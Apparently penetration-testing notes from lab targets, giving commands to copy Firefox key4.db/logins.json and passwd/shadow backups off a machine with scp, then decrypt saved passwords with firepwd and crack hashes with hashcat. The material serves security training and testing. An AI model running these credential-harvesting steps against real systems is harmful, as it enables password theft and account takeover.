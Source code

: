 If not able to run above script on target.  Uses this tool: https://github.com/lclevy/firepwd

1. Download files: key4.db (or key3.db), logins.json (or signons.sqlite)
   ```bash
   scp user@192.168.153.44:/home/user/.mozilla/firefox/ytb95ytb.default-release/key4.db ./
   scp user@192.168.153.44:/home/user/.mozilla/firefox/ytb95ytb.default-release/logins.json ./
   ```

2. Get script
   ```bash
   git clone https://github.com/lclevy/firepwd.git
   pip install -r requirements.txt
   ```
   
3. Run locally ( point to folder with files above)

   ```bash
   python firepwd.py -d ../ffoxfiles
   ```


### Passwd/Shadow Files

1. Copy passwd and shadow files to Kali

   ```bash
   scp -r will@10.129.5.60:/home/will/.backups ./
   cd .backups
   ```

2. Unshadow the file and filter the file down to just the root user (saves some time)

   ```bash
   unshadow passwd.bak shadow.bak > unshadow
   grep root unshadow > root.unshadow
   ```

3. Crack unshadowed file

   ```bash
   hashcat -m 1800 -a 0 root.unshadow /usr/share/wordlists/rockyou.txt -o unshadow.cracked
   
   # -m is SHA-512, other modes are listed in `man hashcat` and search for `Hash types`
   ```

### MD5 Hashes

Crack these with:

```bash
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```

